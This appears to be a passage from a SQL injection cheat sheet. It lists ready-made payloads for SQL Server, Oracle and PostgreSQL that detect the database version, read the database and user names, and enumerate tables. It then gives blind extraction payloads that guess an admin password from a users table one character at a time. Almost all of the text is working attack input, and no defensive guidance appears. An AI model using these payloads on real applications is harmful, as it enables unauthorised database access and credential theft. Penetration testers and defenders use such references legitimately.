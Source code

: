 #### SQL Server
```sql
-- Version detection
' AND @@version LIKE 'Microsoft%'--
' UNION SELECT @@version,null--

-- Database name
' UNION SELECT db_name(),null--

-- User information
' UNION SELECT system_user,user_name()--

-- Table enumeration
' UNION SELECT name,null FROM sys.tables--
```

#### Oracle
```sql
-- Version detection
' AND (SELECT banner FROM v$version WHERE rownum=1) LIKE 'Oracle%'--

-- Database name
' UNION SELECT global_name,null FROM global_name--

-- User information
' UNION SELECT user,null FROM dual--

-- Table enumeration
' UNION SELECT table_name,null FROM all_tables--
```

#### PostgreSQL
```sql
-- Version detection  
' AND version() LIKE 'PostgreSQL%'--

-- Database name
' UNION SELECT current_database(),null--

-- User information
' UNION SELECT current_user,session_user--

-- Table enumeration
' UNION SELECT tablename,null FROM pg_tables--
```

### Data Extraction Techniques

#### String Functions
```sql
-- Substring extraction (MySQL)
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'--

-- Character extraction (SQL Server)
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'--

-- ASCII value comparison
' AND (SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='admin')>64--
```
